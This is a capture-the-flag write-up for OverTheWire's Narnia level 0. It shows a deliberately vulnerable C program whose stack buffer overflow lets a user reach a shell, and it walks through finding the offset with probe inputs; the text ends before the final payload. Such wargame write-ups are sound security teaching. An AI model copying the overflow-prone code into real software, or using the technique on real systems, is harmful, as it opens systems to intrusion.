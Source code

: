```yaml
---
title: "[OTW] Narnia Write-Up"
permalink: /writeups/otw/narnia/
layout: single
sidebar:
  nav: narnia
---
```


#### Narnia 00 Solution

We're given the following source code:
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if (val==0xdeadbeef) {
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    } else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
It seemed like a classic buffer overflow problem. I confirmed this by passing in 28 a's and noticed that 'val' changed from 0x41414141 to 0x61616161 (aaaa in hex):
```html
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: aaaaaaaaaaaaaaaaaaaaaaaaaaaa
buf: aaaaaaaaaaaaaaaaaaaaaaaa
val: 0x61616161
WAY OFF!!!!
```
Now it was just a matter of finding the offset of 'val' from the end of the buffer. I figured this out by passing in 20 a's and then appended b's in multiples of 4 until 'val' first changes. Coincidentally, val is stored directly after buf on the stack:
```html
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: aaaaaaaaaaaaaaaaaaaabbbb
buf: aaaaaaaaaaaaaaaaaaaabbbb
val: 0x62626262
WAY OFF!!!!
```
Now that I know where val is, I can overflow it with whatever value I want. Based on the source code, setting val to 0xdeadbeef will give me control over the shell. Unfortunately, the following won't work:
```html
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: aaaaaaaaaaaaaaaaaaaadeadbeef
buf: aaaaaaaaaaaaaaaaaaaadead
```